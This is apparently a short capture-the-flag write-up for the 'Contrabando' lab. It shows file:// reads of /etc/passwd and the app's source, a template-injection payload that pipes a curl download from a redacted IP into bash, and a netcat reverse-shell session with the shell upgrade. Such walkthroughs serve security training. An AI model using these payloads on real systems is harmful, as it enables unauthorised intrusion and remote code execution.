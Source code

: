 <h2>file:///etc/passwd'</h2>

<img width="1362" height="229" alt="image" src="https://github.com/user-attachments/assets/e534d12e-4462-4c37-a618-1a527bd8a854" />

<br>
<br>
<h2>file:///proc/self/status</h2

<img width="1233" height="408" alt="image" src="https://github.com/user-attachments/assets/b7c8f090-2937-4a25-8618-49fb2e92639d" />

<br>
<br>
<p>

- /usr/bin/python3/home/hansolo/app/app.py </p>

<img width="1362" height="229" alt="image" src="https://github.com/user-attachments/assets/35c7ec6c-d66d-4e3a-8dcb-5d2e25afabe8" />

<br>
<br>
<h2>file:///home/hansolo/app/app.py</h2>

<img width="1367" height="478" alt="image" src="https://github.com/user-attachments/assets/6b492df7-ccd4-4531-b78d-1374dc8c35a0" />

<br>

<img width="1227" height="655" alt="image" src="https://github.com/user-attachments/assets/a878b34f-205b-4737-a609-fa8ecc30678e" />

<br>
<br>
<h2>Reverse Shell</h2>

```bash
$ cat template {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl xx.xxx.xx.xxx:5555|bash').read() }}
```

<h2>hansolo</h2>

```bash
:~/Contrabando# nc -nlvp 1235
Listening on 0.0.0.0 1235
Connection received on xx.xxx.xx.xxx 56854
bash: cannot set terminal process group (728): Inappropriate ioctl for device
bash: no job control in this shell
hansolo@contrabando:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
hansolo@contrabando:~$ ^Z
[1]+  Stopped                 nc -nlvp 1235
:~/Contrabando# stty raw -echo; fg
nc -nlvp 1235

hansolo@contrabando:~$ export TERM=xterm
hansolo@contrabando:~$ id
id
uid=1000(hansolo) gid=1000(hansolo) groups=1000(hansolo)
hansolo@contrabando:~$ pwd
pwd
/home/hansolo
```
